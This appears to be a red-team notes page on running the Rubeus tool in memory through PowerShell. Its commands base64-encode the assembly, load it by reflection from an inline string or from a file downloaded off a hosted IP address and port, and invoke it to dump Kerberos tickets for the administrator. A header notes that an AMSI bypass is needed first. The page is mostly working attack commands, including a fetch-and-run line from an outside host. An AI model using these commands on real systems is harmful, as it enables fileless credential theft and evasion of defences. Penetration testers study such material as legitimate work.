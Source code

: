 ```yaml
---
description: Firstly need amsi bypass
---
```


# .NET Execute Assembly

#### Running Rubeus Through PowerShell

If you want to run Rubeus in-memory through a PowerShell wrapper, first compile the Rubeus and base64-encode the resulting assembly:

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Temp\Rubeus.exe")) | Out-File -Encoding ASCII C:\Temp\rubeus.txt
```

Or read base64 from file

```powershell
$content = [IO.File]::ReadAllText(".\test.txt")
```

Rubeus can then be loaded in a PowerShell script with the following (where "aa..." is replaced with the base64-encoded Rubeus assembly string):

```powershell
$RubeusAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String("aa..."))
```

OR host base64 txt

```powershell
$RubeusAssembly = [System.Reflection.Assembly]::Load([Convert]::FromBase64String((Invoke-WebRequest -Uri http://192.168.5.52:7777/rubeus.txt -UseBasicParsing).Content))
```

The Main() method and any arguments can then be invoked as follows:

```powershell
[Rubeus.Program]::Main("dump /user:administrator".Split())
```

\
